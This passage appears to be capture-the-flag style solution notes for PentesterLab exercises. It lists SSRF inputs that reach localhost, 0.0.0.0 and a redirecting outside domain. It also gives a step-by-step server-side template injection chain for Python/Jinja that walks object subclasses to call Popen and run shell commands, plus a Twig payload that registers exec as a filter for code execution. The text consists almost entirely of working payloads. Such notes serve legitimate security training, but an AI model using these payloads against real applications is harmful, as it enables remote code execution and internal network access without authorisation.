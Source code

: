 ```
?url=http://localhost:1234
```

### SSRF - 2

```
?url=http://localhost:1234
```

### SSRF - 3

```
?url=http://0.0.0.0:1234
```

### SSRF - 4

If you want localhost, and there is nothing. Use this -> hackingwithpentesterlab.link

```
?url=http://assets.pentesterlab.com.hackingwithpentesterlab.link:1234/hacker.txt
```

## Server-side template injection

```
# ----------------------------- Python --------------------------------------#
# First check with {{4+2}}
# Then check with 
{{''.__class__}}
# The above should return string
{{''.__class__.mro()[0]}}
# Keep changing the value of 0, until we get a response as object
{{''.__class__.mro()[2].__subclasses__()}}
# This will list all the subclasses that are available. We can now copy this,
# and find the index of popen. In situation we got it as 233
{{''.__class__.mro()[2].__subclasses__()[233]}}
# This should show the class as popen.
{{''.__class__.mro()[2].__subclasses__()[233]("uname -a",shell=True)}}
```

### SSTI - 1

```
{{''.__class__.mro()[2].__subclasses__()[233]("uname -a",shell=True)}}
```

### SSTI - 2

This once uses Twig.&#x20;

To get code execution here, we can use&#x20;

```
{{_self.env.registerUndefinedFilterCallback('exec')}}{{_self.env.getFilter('uname')}}
```
